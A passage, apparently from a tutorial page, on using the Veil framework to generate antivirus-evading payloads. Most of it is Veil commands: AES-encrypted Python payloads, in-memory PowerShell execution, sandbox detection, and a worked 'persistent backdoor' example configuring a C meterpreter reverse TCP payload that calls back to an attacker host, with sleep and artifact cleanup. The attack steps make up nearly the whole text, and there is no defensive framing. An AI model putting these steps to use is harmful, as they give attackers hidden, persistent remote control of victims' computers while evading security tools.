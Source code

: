 ```bash
set LPORT 443
set EXPIRE_PAYLOAD Y
set EXPIRE_DATE 01/01/2023

# Generate the payload
generate
```

### AV Evasion Techniques

Veil incorporates multiple evasion techniques:

#### 1. Encryption and Obfuscation

```bash
# Python payload with AES encryption
use 29
set ENCRYPTION aes256
set INTERVAL 10
```

#### 2. Memory-Only Execution

```bash
# PowerShell payload with in-memory execution
use 21
set INJECT_METHOD Virtual
```

#### 3. Sandbox Detection

```bash
# Add sandbox detection
set SANDBOX_CHECK True
```

### Example: Creating Persistent Backdoors

This example creates a payload that maintains persistence across reboots:

1. Generate a stealthy executable:

```bash
veil
use 1
use 7  # C/meterpreter/rev_tcp

set LHOST 192.168.1.100
set LPORT 8443
set SLEEP 10
set LURI /updates

# Enable cleanup to remove artifacts
set CLEANUP True

generate
```
